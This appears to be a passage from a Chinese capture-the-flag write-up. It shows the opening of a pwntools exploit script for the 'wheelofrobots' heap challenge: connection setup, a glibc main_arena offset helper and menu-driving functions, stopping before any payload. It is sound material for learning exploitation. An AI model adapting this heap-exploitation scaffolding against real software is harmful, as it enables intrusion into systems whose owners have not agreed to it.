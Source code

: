 代碼如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')

```